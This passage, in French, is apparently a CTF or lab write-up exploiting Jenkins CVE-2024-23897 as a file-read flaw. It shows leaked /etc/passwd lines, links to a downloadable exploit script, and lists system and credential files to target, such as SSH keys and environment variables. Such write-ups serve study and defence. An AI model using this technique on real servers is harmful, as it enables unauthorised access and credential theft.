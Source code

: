 ```shell
jenkins:x:1000:1000::/var/jenkins_home:/bin/bash: No such agent "jenkins:x:1000:1000::/var/jenkins_home:/bin/bash" exists.
games:x:5:60:games:/usr/games:/usr/sbin/nologin: No such agent "games:x:5:60:games:/usr/games:/usr/sbin/nologin" exists.
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin: No such agent "man:x:6:12:man:/var/cache/man:/usr/sbin/nologin" exists.
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin: No such agent "daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin" exists.
sys:x:3:3:sys:/dev:/usr/sbin/nologin: No such agent "sys:x:3:3:sys:/dev:/usr/sbin/nologin" exists.
sync:x:4:65534:sync:/bin:/bin/sync: No such agent "sync:x:4:65534:sync:/bin:/bin/sync" exists.

ERROR: Error occurred while performing this command, see previous stderr output.
```
Et voilà ! On a tout le contenu de notre fichier, et on a visiblement la permission d'utiliser cette commande.

On a plus qu'a formatter la sortie pour garder seulement ce qui nous intéresse et l'exploit est fini !

![Exploit python code](exploit-light.png){: .light .w-50}
![Exploit python code](exploit-dark.png){: .dark .w-50}

> [Télécharger l'exploit](/exploits/builder/CVE-2024-23897.py)
{: .prompt-info}

### Trouver les fichiers sensibles

Maintenant qu'on peut facilement lire n'importe quel fichier du serveur, on veut essayer de récupérer des informations et trouver des fichiers de configurations, variables d'environnement, clé SSH etc...

> Dans certains cas, un LFI peut aussi envoyer des requêtes, et donc intéragir avec nous ou l'intranet, dans quel cas on utiliserais les même techniques qu'avec un SSRF.
{: .prompt-tip}

Dans le rapport fait avec la découverte de CVE-2024-23897, une partie montre comment il est possible d'exploiter le LFI pour exécuter du code sur le serveur.
Ici je ne vais pas utiliser tout de suite les techniques données, et plutôt chercher moi-même une manière de faire.

On commence assez simplement en récupérant des informations:
- **/etc/passwd:** La liste des utilisateurs et le chemin vers leurs home
- **/etc/hostname:** Le nom du serveur
- **/etc/hosts:** Le "DNS Local"

Ici on trouve un seul utilisateur (autre que root):
```
jenkins:x:1000:1000::/var/jenkins_home:/bin/bash
```
{: file='/etc/passwd'}

Le fichier `/etc/hosts` est assez important:
```
172.17.0.2	0f52c222a4cc
```
{: file='/etc/hosts'}
Avec ce genre de nom et d'IP, c'est pratiquement sûr que Jenkins est déployé dans un container Docker.
